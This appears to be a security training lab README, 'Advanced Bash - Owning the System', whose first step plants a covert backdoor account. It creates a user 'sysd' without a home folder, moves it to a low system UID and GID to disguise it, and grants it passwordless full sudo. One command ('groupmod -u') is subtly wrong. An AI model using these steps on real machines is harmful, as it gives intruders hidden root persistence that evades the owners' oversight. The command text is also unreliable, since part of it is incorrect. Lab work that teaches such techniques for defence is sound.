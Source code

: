 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
    • sudo useradd sysd

    2.	Give your secret user a password:
    • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
    • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
    • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
    • sudo visudo
    
![see photo](/images/picture1.png)